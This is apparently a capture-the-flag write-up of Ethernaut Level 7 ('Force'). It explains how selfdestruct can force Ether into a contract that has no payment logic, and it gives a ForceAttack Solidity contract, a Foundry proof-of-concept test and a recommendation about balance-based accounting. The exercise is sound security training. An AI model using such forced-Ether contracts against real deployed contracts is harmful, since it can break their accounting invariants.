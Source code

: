 # Level 7 - Force

## Objectives

- make the balance of the contract greater than zero

## Contract Overview

The `Force` contract does not have any code inside. The concept behind this contract is how we can forcefully send Ether to a contract. That is why the purpose of this level is to show that even without the logic to handle payments, it is possible to send Ether to the contract and increase its balance.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Force_slither.png)

## Finding the weak spots

There are currently three ways in which we can forcefully send Ether to a contract even when it does not have any implementations to receive funds. They are:

- Self-destruct: Smart contracts can receive Ether from other contracts as a result of a `selfdestruct()` call. All the Ether stored in the calling contract will then be transferred to the address specified when calling the selfdestruct() and there's no way for the receiver to prevent this because this happens on the EVM level.
- Coinbase Transactions: An address can receive Ether as a result of Coinbase transactions or block rewards. The attacker can start proof-of-work mining and set the target address to receive the rewards.
- Pre-calculated addresses: It is possible to pre-calculate the contract addresses before they are generated. If an attacker deposits funds into the address before its deployment, it is possible to forcefully store Ether there.

The easiest way is by making use of a `selfdestruct()` function. It is a function which is used to delete a contract from the blockchain and remove it's code and storage. It looks like:

```solidity
address payable addr = payable(address(etherGame));
selfdestruct(addr);
```

Whenever this is called, the Ether stored in the contract from which it is being called will be sent to the `addr` mentioned in the arguments.

Therefore, to finish this level, we just need to deploy a malicious contract, fund it with some Ether, and use a `selfdestruct()` with the address of the Ethernaut's instance to forcefully send the balance to that contract.

## Potential attack scenario (hypothesis)

Attacker can create a malicious contract that will contain an `attack` function that trigger `selfdestruct` and specify the address of the `Force` contract as the target. Funds it with some Ether, calls the `attack` function and this way he will increase the balance of the `Force` contract.

## Plan of the attack

1. Attacker creates the malicious contract that will contain `attack` function that trigger `selfdestruct` and specify the address of the `Force` contract as the target.
2. Attacker funds the malicious contract with any amount of Ether.
3. Attacker calls the `attack` function from the malicious contract.
4. The balance of the `Force` contract is increased.

## Malicious contract (ForceAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "./Force.sol";

contract ForceAttack {
    Force forceContract;

    constructor(address _forceContractAddress) public {
        forceContract = Force(_forceContractAddress);
    }

    function attack() public {
        selfdestruct(payable(address(forceContract)));
    }
}
```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/07-Force.t.sol))

```solidity
      // Attacker creates the malicious contract that will contain `attack` function that trigger `selfdestruct` and specify the address of the `Force` contract as the target.
        ForceAttack forceAttack = new ForceAttack(levelAddress);

        emit log_string(
            "--------------------------------------------------------------------------"
        );
        // Attacker funds the malicious contract with any amount of Ether.
        emit log_string("Funding the ForceAttack contract with 1 eth");
        vm.deal(address(forceAttack), 1 ether);

        emit log_named_uint(
            "ForceAttack contract balance (before attack): ",
            address(forceAttack).balance
        );
        emit log_named_uint(
            "Exploited contract balance (before attack): ",
            address(forceContract).balance
        );

        emit log_string(
            "--------------------------------------------------------------------------"
        );

        // Attacker calls the `attack` function from the malicious contract.
        emit log_string("Starting the exploit...");
        forceAttack.attack();

        emit log_named_uint(
            "ForceAttack contract balance (after attack): ",
            address(forceAttack).balance
        );

        // The balance of the `Force` contract is increased.
        emit log_named_uint(
            "Exploited contract balance (after attack): ",
            address(forceContract).balance
        );

        // Test assertion
        assertGe(address(forceContract).balance, 0);
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Force.png)

## Recommendations

- Intrinsic accounting should not rely on the contract balance because ether can be forcefully sent to the contract

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)
- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Solidity by Example](https://solidity-by-example.org/hacks/self-destruct/)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)

The recommendations section is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
